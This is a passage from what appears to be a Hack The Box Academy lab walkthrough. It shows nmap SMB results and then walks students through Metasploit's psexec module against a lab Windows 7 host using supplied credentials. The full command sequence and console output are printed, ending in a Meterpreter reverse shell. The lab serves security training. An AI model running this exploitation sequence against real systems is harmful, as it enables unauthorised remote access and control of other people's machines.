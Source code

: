 ```
Host script results:
|_clock-skew: mean: 1s, deviation: 0s, median: 0s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3.1.1:
|	Message signing enabled but not required
|_
| smb2-time: 
|   date: 2022-03-21T03:49:36
|_  start_date: N/A
```

Since the target is running the Windows 7 OS and has the SMB port open, it will most probably be vulnerable to SMB attacks/exploits. Thus, students need to use Metasploit and choose `exploit/windows/smb/psexec` as the exploit:

Code: shell

```shell
msfconsole -q
set RHOSTS STMIP
set SHARE ADMIN$
set SMBPass HTB_@cademy_stdnt!
set SMBUser htb-student
set LHOST PWNIP
exploit
```

```
┌─[eu-academy-2]─[10.10.15.49]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ msfconsole -q

msf6 > use exploit/windows/smb/psexec 
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp

msf6 exploit(windows/smb/psexec) > set RHOSTS 10.129.201.160
RHOSTS => 10.129.201.160

msf6 exploit(windows/smb/psexec) > set SHARE ADMIN$ 
SHARE => ADMIN$

msf6 exploit(windows/smb/psexec) > set SMBPass HTB_@cademy_stdnt!
SMBPass => HTB_@cademy_stdnt!

msf6 exploit(windows/smb/psexec) > set SMBUser htb-student
SMBUser => htb-student

msf6 exploit(windows/smb/psexec) > set LHOST 10.10.15.49
LHOST => 10.10.15.49

msf6 exploit(windows/smb/psexec) > exploit

[*] Started reverse TCP handler on 10.10.15.49:4444 
[*] 10.129.201.160:445 - Connecting to the server...
[*] 10.129.201.160:445 - Authenticating to 10.129.201.160:445 as user 'htb-student'...
[*] 10.129.201.160:445 - Selecting PowerShell target
<SNIP>
[*] Meterpreter session 1 opened (10.10.15.49:4444 -> 10.129.201.160:49874) at 2022-03-18 07:45:08 +0000

meterpreter >
```